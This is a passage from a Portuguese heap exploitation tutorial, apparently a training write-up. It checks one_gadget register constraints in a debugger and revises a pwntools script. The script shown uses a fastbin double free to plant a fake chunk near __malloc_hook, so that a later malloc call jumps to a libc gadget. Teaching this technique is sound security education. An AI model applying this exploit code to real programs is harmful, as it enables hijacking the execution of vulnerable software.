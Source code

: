 A segunda opção, nos dizia que os registradores `RBP - 0x40` e `R12` precisam estar nulos. O que também não é atendido, pois neste ponto, o `R12` está em uso.

Já a terceira opção, nos dizia que o registrador `RSP + 0x50`, deve estar nulo. Podemos checar a *stack* com o comando `stack` seguido da quantidade de *quadwords* que queremos mostrar, conforme abaixo.

![Consultando a stack](/img/papers/heap_p1/paper_heap1_146.png)

Como podemos ver, este endereço também não é nulo, porém é um endereço válido.  
De acordo com a *C11 standard states* (que pode ser consultada em [port70.net/~nsz/c/c11/n1570.html](https://port70.net/~nsz/c/c11/n1570.html)), a primeira entrada em toda *argv array*, normalmente representa o nome do programa sendo invocado, e que na maior parte dos casos, é ignorada.

Já a próxima entrada, é nula, conforme ilustrado abaixo.

![Próxima entrada nula](/img/papers/heap_p1/paper_heap1_147.png)

E uma vez que a chamada principal será ignorada e partirá para a próxima, as condições do one_gadget serão atendidas, mesmo que o próprio one_gadget tenha mostrado o endereço anterior.

Para testarmos esta teoria, vamos editar o bloco de exploração do script e substituir o endereço da função `system()` pelo endereço da GLIBC mais o *offset* do terceiro gadget sugerido pelo one_gadget, e adicionar mais uma chamada de malloc para ativarmos o gadget.

O bloco fica desta forma:

```py
#===============EXPLOITING================#

# enviando o username
username = p64(0) + p64(0x31)
io.sendafter(b"username: ", username)
io.recvuntil(b"> ")

# requisitando 2 chunks de 0x30 bytes
chunk_A = malloc(0x68, b"A"*0x68)
chunk_B = malloc(0x68, b"B"*0x68)

# liberando os chunks
free(chunk_A)
free(chunk_B)
free(chunk_A)

# criando um chunk fake que aponta para o "malloc hook"
dup = malloc(0x68, p64(libc.sym.__malloc_hook - 35))

# requisitando o chunk B
malloc(0x68, b"A")
```